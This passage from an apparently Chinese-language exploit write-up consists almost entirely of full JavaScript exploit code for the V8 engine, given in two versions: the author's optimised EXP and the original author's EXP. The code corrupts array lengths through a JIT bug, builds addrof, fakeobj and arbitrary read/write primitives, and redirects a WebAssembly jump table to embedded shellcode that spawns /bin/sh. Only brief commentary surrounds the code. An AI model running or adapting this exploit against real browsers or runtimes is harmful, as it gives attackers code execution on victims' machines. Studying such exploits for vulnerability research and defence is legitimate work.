    235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 115, 104, 0, 91, 235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 98,
    105, 110, 89, 235, 11, 57, 3, 0, 65, 0, 68, 72, 193, 227, 32, 144, 144, 235, 11, 57, 3, 0, 65, 0,
    68, 72, 1, 203, 83, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 137, 231, 144, 144, 144, 235, 11,
    57, 3, 0, 65, 0, 68, 72, 49, 246, 72, 49, 210, 235, 11, 57, 3, 0, 65, 0, 68, 15, 5, 144, 144, 144,
    144, 235, 11, 57, 3, 0, 65, 42, 11,
]);
let shell_wasm_module = new WebAssembly.Module(shell_wasm_code);
let shell_wasm_instance = new WebAssembly.Instance(shell_wasm_module);
let shell_func = shell_wasm_instance.exports.main;

let shell_wasm_instance_addr = addrof(shell_wasm_instance);
console.log("Shell WASM instance addr: 0x" + shell_wasm_instance_addr.toString(16));
let shell_wasm_trusted_data_addr = arb_read(shell_wasm_instance_addr + 0x8n)>>32n;
console.log("Shell WASM trusted data addr: 0x" + shell_wasm_trusted_data_addr.toString(16));
let jump_table_start_addr = arb_read(shell_wasm_trusted_data_addr + 0x28n);
console.log("Jump Table Start addr: 0x" + jump_table_start_addr.toString(16));
let shell_code_addr = jump_table_start_addr + 0x89cn;
console.log("Shell code addr: 0x" + shell_code_addr.toString(16));

arb_write(shell_wasm_trusted_data_addr + 0x28n, shell_code_addr);

shell_func(); //这里才是初次调用，并且直接进行执行流控制
```

不出意外这样就可以getshell了,如下图



## EXP

经过我个人优化过的EXP如下：

```
function foo(x) {
    return x + x;
}

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function convertToHex(val) {
  return "0x" + val.toString(16);
}

function ftoi(val) {
  f64_buf[0] = val;
  return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
  u64_buf[0] = Number(val & 0xffffffffn);
  u64_buf[1] = Number(val >> 32n);
  return f64_buf[0];
}

function ftoi32(val) {
  var buf = new ArrayBuffer(0x8);
  var f64_buf = new Float64Array(buf);
  var u64_buf = new Uint32Array(buf);
  f64_buf[0] = val;
  return BigInt(u64_buf[0]);
}
  
function test() {
    let res=0;
    for (let i = 0; i < 1000; ++i) {
        res = foo(2);
    }
    let corrupting_array = [0.1, 0.1];
    let corrupted_array = [0.1,0.1,0.1];
    let buf_array = [{}];
    overwrite = ftoi(corrupting_array[(res-4)*7]) + 0x1000_0000_0000n;
    corrupting_array[(res-4)*7] = itof(overwrite); //overwirte corrupted_array --> length
    overwrite = ftoi(corrupting_array[(res-4)*2]) + 0x1000_0000_0000n;
    corrupting_array[(res-4)*2] = itof(overwrite); //overwrite corrupted_array --> elements --> length 
    return [corrupted_array, buf_array];
}

let o;

for (let index = 0; index < 1000; index++) {
    
    o = test();
    if (o[0].length != 3) break;
}

let leakArr = new Float64Array(1);

function addrof(obj) {
    o[1][0] = obj;
    return ftoi(o[0][9])>>32n;
}

function fakeobj(addr) {
    o[0][9] = itof((addr<<32n) + 2n);
    return o[1][0];
}

function arb_read(addr) {
    if (addr % 2n == 1n) {
      addr -= 1n;
    }
    addr -= 7n;
    o[0][58] =  itof((ftoi(o[0][58])&0xffffffff00000000n) + addr);

    return ftoi(leakArr[0]);
}

function arb_write(addr, data) {
    if (addr % 2n == 1n) {
      addr -= 1n;
    }
    addr -= 7n;
    o[0][58] =  itof((ftoi(o[0][58])&0xffffffff00000000n) + addr);

    leakArr[0] = itof(data);
}

function copyshellcode(addr, shellcode) {
    addr = BigInt(addr);
    buf = new ArrayBuffer(0x100);
    dataview = new DataView(buf);
    buf_addr = addrof(buf);
    backing_store_addr = BigInt(buf_addr) + 0x14n;
    arb_write(backing_store_addr, BigInt(addr));
    for (let i = 0; i < shellcode.length; i++) {
      dataview.setUint32(4 * i, shellcode[i], true);
    }
}

let shell_wasm_code = new Uint8Array([
    0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0,
    1, 7, 17, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 133, 1, 1,
    130, 1, 0, 65, 0, 68, 0, 0, 0, 0, 0, 0, 0, 0, 57, 3, 0, 65, 0, 68, 106, 59, 88, 144, 144, 144,
    235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 115, 104, 0, 91, 235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 98,
    105, 110, 89, 235, 11, 57, 3, 0, 65, 0, 68, 72, 193, 227, 32, 144, 144, 235, 11, 57, 3, 0, 65, 0,
    68, 72, 1, 203, 83, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 137, 231, 144, 144, 144, 235, 11,
    57, 3, 0, 65, 0, 68, 72, 49, 246, 72, 49, 210, 235, 11, 57, 3, 0, 65, 0, 68, 15, 5, 144, 144, 144,
    144, 235, 11, 57, 3, 0, 65, 42, 11,
]);
let shell_wasm_module = new WebAssembly.Module(shell_wasm_code);
let shell_wasm_instance = new WebAssembly.Instance(shell_wasm_module);
let shell_func = shell_wasm_instance.exports.main;

let shell_wasm_instance_addr = addrof(shell_wasm_instance);
console.log("Shell WASM instance addr: 0x" + shell_wasm_instance_addr.toString(16));
let shell_wasm_trusted_data_addr = arb_read(shell_wasm_instance_addr + 0x8n)>>32n;
console.log("Shell WASM trusted data addr: 0x" + shell_wasm_trusted_data_addr.toString(16));
let jump_table_start_addr = arb_read(shell_wasm_trusted_data_addr + 0x28n);
console.log("Jump Table Start addr: 0x" + jump_table_start_addr.toString(16));
let shell_code_addr = jump_table_start_addr + 0x89cn;
console.log("Shell code addr: 0x" + shell_code_addr.toString(16));

arb_write(shell_wasm_trusted_data_addr + 0x28n, shell_code_addr);
shell_func();
```

原作者的EXP也放置在这里，可以用作对比:

> 其实主要区别就是原作者的覆盖放在了新的函数，但这里其实没必要大费周章的新建函数，只要保证是初次调用函数即可

```
function foo(x) {
    return x + x;
}

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function convertToHex(val) {
  return "0x" + val.toString(16);
}

function ftoi(val) {
  f64_buf[0] = val;
  return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
}

function itof(val) {
  u64_buf[0] = Number(val & 0xffffffffn);
  u64_buf[1] = Number(val >> 32n);
  return f64_buf[0];
}

function ftoi32(val) {
  var buf = new ArrayBuffer(0x8);
  var f64_buf = new Float64Array(buf);
  var u64_buf = new Uint32Array(buf);
  f64_buf[0] = val;
  return BigInt(u64_buf[0]);
}
  
function test() {
    let res=0;
    for (let i = 0; i < 1000; ++i) {
        res = foo(2);
    }
    let corrupting_array = [0.1, 0.1];
    let corrupted_array = [0.1,0.1,0.1];
    let buf_array = [{}];
    overwrite = ftoi(corrupting_array[(res-4)*7]) + 0x100000000000n;
    corrupting_array[(res-4)*7] = itof(overwrite);
    overwrite = ftoi(corrupting_array[(res-4)*2]) + 0x100000000000n;
    corrupting_array[(res-4)*2] = itof(overwrite);
    return [corrupted_array, buf_array];
}

let o;

for (let index = 0; index < 1000; index++) {
    
    o = test();
    if (o[0].length != 3) break;
}

let leakArr = new Float64Array(1);


function addrof(obj) {
    o[1][0] = obj;
    return ftoi(o[0][9])>>32n;
}

function fakeobj(addr) {
    o[0][9] = itof((addr<<32n) + 2n);
    return o[1][0];
}

function arb_read(addr) {
    if (addr % 2n == 1n) {
      addr -= 1n;
    }
    addr -= 7n;
    o[0][58] =  itof((ftoi(o[0][58])&0xffffffff00000000n) + addr);

    return ftoi(leakArr[0]);
}

function arb_write(addr, data) {
    if (addr % 2n == 1n) {
      addr -= 1n;
    }
    addr -= 7n;
    o[0][58] =  itof((ftoi(o[0][58])&0xffffffff00000000n) + addr);

    leakArr[0] = itof(data);
}

function copyshellcode(addr, shellcode) {
    addr = BigInt(addr);
    buf = new ArrayBuffer(0x100);
    dataview = new DataView(buf);
    buf_addr = addrof(buf);
    backing_store_addr = BigInt(buf_addr) + 0x14n;
    arb_write(backing_store_addr, BigInt(addr));
    for (let i = 0; i < shellcode.length; i++) {
      dataview.setUint32(4 * i, shellcode[i], true);
    }
}


// redirect the function start to our shellcode
let shell_wasm_code = new Uint8Array([
    0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0,
    1, 7, 17, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 133, 1, 1,
    130, 1, 0, 65, 0, 68, 0, 0, 0, 0, 0, 0, 0, 0, 57, 3, 0, 65, 0, 68, 106, 59, 88, 144, 144, 144,
    235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 115, 104, 0, 91, 235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 98,
    105, 110, 89, 235, 11, 57, 3, 0, 65, 0, 68, 72, 193, 227, 32, 144, 144, 235, 11, 57, 3, 0, 65, 0,
    68, 72, 1, 203, 83, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 137, 231, 144, 144, 144, 235, 11,
    57, 3, 0, 65, 0, 68, 72, 49, 246, 72, 49, 210, 235, 11, 57, 3, 0, 65, 0, 68, 15, 5, 144, 144, 144,
    144, 235, 11, 57, 3, 0, 65, 42, 11,
]);
let shell_wasm_module = new WebAssembly.Module(shell_wasm_code);
let shell_wasm_instance = new WebAssembly.Instance(shell_wasm_module);
let shell_func = shell_wasm_instance.exports.main;
shell_func();

let shell_wasm_instance_addr = addrof(shell_wasm_instance);
console.log("Shell WASM instance addr: " + shell_wasm_instance_addr.toString(16));
let shell_wasm_trusted_data_addr = arb_read(shell_wasm_instance_addr + 0x8n)>>32n;
console.log("Shell WASM trusted data addr: " + shell_wasm_trusted_data_addr.toString(16));
let shell_wasm_rwx_addr = arb_read(shell_wasm_trusted_data_addr + 0x28n);
console.log("Shell RWX addr: " + shell_wasm_rwx_addr.toString(16));
let shell_func_code_addr = shell_wasm_rwx_addr + 0x840n;
console.log("Shell func code addr: " + shell_func_code_addr.toString(16));
let shell_code_addr = shell_func_code_addr + 0x6fn - 0x13n;
console.log("Shell code addr: " + shell_code_addr.toString(16));

let fake_wasm_code = new Uint8Array([
0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0,
1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128,
128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105,
110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11,
]);
let fake_wasm_module = new WebAssembly.Module(fake_wasm_code);
let fake_wasm_instance = new WebAssembly.Instance(fake_wasm_module);
let fake_func = fake_wasm_instance.exports.main;

let fake_wasm_instance_addr = addrof(fake_wasm_instance);
console.log("Fake WASM instance addr: " + fake_wasm_instance_addr.toString(16));
let fake_wasm_trusted_data_addr = arb_read(fake_wasm_instance_addr + 0x8n)>>32n;
console.log("Fake WASM trusted data addr: " + fake_wasm_trusted_data_addr.toString(16));
arb_write(fake_wasm_trusted_data_addr + 0x28n, shell_code_addr);

fake_func();

```

> 本文首发于先知社区
